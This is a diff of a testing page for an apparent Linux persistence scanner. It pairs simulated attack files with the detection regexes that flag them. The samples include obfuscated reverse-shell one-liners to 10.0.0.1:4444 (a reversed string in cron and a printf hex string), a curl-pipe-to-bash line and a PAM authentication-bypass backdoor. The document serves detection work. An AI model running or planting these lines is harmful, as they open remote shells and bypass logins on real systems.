

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, 3 parts joined by grey strips. Shown at 88% size. Drawn GitHub-style; pictures changed too: assets/test-printf.png (added); blank space fills up the shorter version.

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -58,20 +100,21 @@ WantedBy=multi-user.target
 
 ---
 
-## PoC 3: Cron String Reversal
+## 3. Cron Jobs
 
-**Vector:** Attackers obfuscate payloads using string reversal (`rev | bash`)
+### PoC 3.1: Cron String Reversal
+
+**Vector:** Attackers obfuscate payloads using string reversal (`rev`) inside scheduled cron tasks to evade static signature matching.
 
 **Simulated File:** `root_cron`
 
-```cron
+```
 * * * * * root echo "4444 1.0.0.01 hsab/nib/ e- cn" | rev | bash
 ```
 
 **Matched Indicators (`rules.json`):**
+* `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
 * `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
-* `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
-
 
 **PoC Evidence:**
 
@@ -79,13 +122,15 @@ WantedBy=multi-user.target
 
 ---
 
-## PoC 4: PAM Authorization Bypass & Shared Memory Trigger
+## 4. PAM Authentication
 
-**Vector:** Attackers force unconditional authentication bypass (`pam_permit.so`) while executing hidden payloads located in shared RAM disk space (`/dev/shm`) upon login events.
+### PoC 4.1: PAM Authorization Bypass & Shared Memory Trigger
+
+**Vector:** Attackers force unconditional authentication bypass (`pam_permit.so`) while executing payloads located in shared RAM disk space (`/dev/shm`) upon login events.
 
 **Simulated File:** `pam-test`
 
-```pam
+```
 #%PAM-1.0
 auth       sufficient   pam_permit.so
 session    optional     pam_exec.so /dev/shm/.harvest.sh
@@ -94,7 +139,7 @@ session    optional     pam_exec.so /dev/shm/.harvest.sh
 **Matched Indicators (`rules.json`):**
 * `auth\s+sufficient\s+pam_permit\.so` — **CRITICAL** (*PAM authentication bypass backdoor*)
 * `pam_exec\.so` — **HIGH** (*Execution of external commands during PAM authentication*)
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
+* `(/tmp|/dev/shm|/var/tmp|/run/user(/[0-9]+)?)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
 
 **PoC Evidence:**
 
@@ -123,0 +200,13 @@ curl -s -k https://10.0.0.1/update.sh | bash
+```
+#!/bin/bash
+printf '\x6e\x63\x20\x2d\x65\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x31\x30\x2e\x30\x2e\x30\x2e\x31\x20\x34\x34\x34\x34' | bash
+```
+
+**Matched Indicators (`rules.json`):**
+
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
+* `printf\s+['"].*(\\x[0-9a-fA-F]{2}){3,}` — **HIGH** (*Hex-encoded string payload constructed via printf.*)
+
+**PoC Evidence:**
+
+[![Hex Detection](assets/test-printf.png)](assets/test-printf.png)
````
Also changed, not shown: other parts of TESTING.md (+91 -18 lines), assets/test-dbus.png (added), assets/test-motd.png, assets/test-udev.png, assets/test-udev2.png (added), 1 other file.
